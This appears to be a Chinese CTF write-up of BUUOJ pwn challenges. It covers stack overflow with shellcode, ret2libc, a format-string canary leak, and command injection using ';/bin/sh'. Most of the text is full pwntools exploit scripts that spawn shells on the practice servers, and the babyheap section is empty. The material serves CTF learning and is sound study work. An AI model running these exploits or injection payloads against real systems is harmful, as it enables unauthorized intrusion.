










第二页
题目1_ez_pz_hackover_2016
-
考点：
栈溢出、shellcode -
先查看一下保护机制，保护机制，发现是32位的程序，并且很多保护机制都没有开。

- 之后使用IDA pro反编译一下该程序，发现程序会先进行输入输出初始化
- 之后就调用两个函数

- 接下来就查看
header()这个函数,发现这个函数没有任何漏洞点

-
再看一下
chall(),这个函数主要执行的操作为 -
题目先会泄露出
s这个数组的地址，即栈上的地址 -
向
s输入内容这个地方不存在栈溢出 -
并且
v3这边会查找\n，然后会将\n置\x00 -
之后会将数组
s与crashme进行比较如果两个字符串相等，那么就可以执行vuln这个函数。

- 接下来查看
vuln这个函数 -
这个函数会复制
0x400字节到dest这个数组中,这个复制的值是从&src注意是保存src地址的栈开始，这边存在栈溢出 -
接下来就是栈溢出的利用了。由于栈可执行，直接往栈上写shellcode然后执行即可
- exp如下：
from pwn import *
#p = process("./ez_pz_hackover_2016")
p = remote('node5.buuoj.cn',27130)
p.recvuntil('crash: ')
#gdb.attach(p)
stack_addr = p.recvline()[:-1]
print(stack_addr)
stack_addr = int(stack_addr.decode(),16)
a = asm(shellcraft.sh())
print('a--->',len(a))
payload = b'crashme\x00' + cyclic(0x12)
payload += p32(stack_addr-0x1c)+a
p.sendline(payload)
p.interactive()
题目2_jarvisoj_level3_x64
- 考点
ret2libc这边就不多介绍了，简单栈溢出的ret2libc应用 - 漏洞点就在这里：

- exp如下：
from pwn import *
#p = process('./level3_x64')
p = remote('node5.buuoj.cn',26355)
pop_rdi = 0x4006b3
pop_rsi = 0x4006b1
write_addr = 0x4004B0
write_got = 0x600A58
#gdb.attach(p)
payload = b'a'*0x88+p64(pop_rdi)+p64(1)
payload += p64(pop_rsi)+p64(write_got)+p64(0)+p64(write_addr)+p64(0x4005E6)
pause()
p.sendline(payload)
p.recvline()
write = p.recv()[0:6]
print('write_addr-->',write)
write = int.from_bytes(write,'little')
libc_addr = write - 0xF72B0
sh_addr = libc_addr + 0x18CD57
sys_addr = libc_addr + 0x45390
payload = b'a'*0x88+p64(pop_rdi)+p64(sh_addr)+p64(sys_addr)
p.sendline(payload)
p.interactive()
题目3_mrctf2020_shellcode
- 考点
ret2shellcode -
简单的
ret2shellcode，附件都不用看直接打，模版题。 -
exp如下：
from pwn import *
context.arch='amd64'
p = process('./mrctf2020_shellcode')
p = remote('node5.buuoj.cn',27597)
payload = asm(shellcraft.sh())
p.sendline(payload)
p.interactive()
题目4_bjdctf_2020_babyrop2
- 考点：
ret2libc、格式化字符串漏洞、canary保护 - 查看一下该附件的保护机制

- 开了Canary，程序中有格式化字符串漏洞，先要利用该漏洞就可以泄露
canary了

- 现在就可以直接
ret2libc了

from pwn import *
p = process("./bjdctf_2020_babyrop2")
#gdb.attach(p)
p = remote('node5.buuoj.cn',28015)
p.sendline(b'%7$p')
canary = p.recvuntil(b'I\'ll give u some gift to help u!\n')
canary = p.recvline()[:-1]
print('canary-->',canary)
canary = int(canary.decode(),16)
pop_rdi=0x400993
puts_got = 0x601018
puts_plt = 0x400610
payload = b'a'*0x18+p64(canary)+b'a'*0x8+p64(pop_rdi)
payload += p64(puts_got)+p64(puts_plt)+p64(0x400887)
p.sendline(payload)
p.recvuntil(b'Pull up your sword and tell me u story!\n')
puts_addr = p.recvline()[:-1]
puts_addr = int.from_bytes(puts_addr,'little')
libc_addr = puts_addr - 0x6F690
sys_addr = libc_addr + 0x45390
sh_addr = libc_addr + 0x18CD57
print('puts_addr--->',puts_addr)
payload = b'a'*0x18+p64(canary)+b'a'*0x8+p64(pop_rdi)
payload += p64(sh_addr)+p64(sys_addr)
p.sendline(payload)
p.interactive()
题目5_babyheap_0ctf_2017
- 考点：
题目6_bjdctf_2020_router
- 考点：
命令执行 -
这题的考点其实算是
web的，其实学到后面就感觉web和pwn有点不分家，在网络攻防都是占很大一块。 -
我们直接就查看附件，发现选项1会执行命令，并且
0x20676E6970就是ping的小端序

- 这时我们就可以使用
;进行命令绕过，直接选择选项1然后执行命令;/bin/sh即可getshell
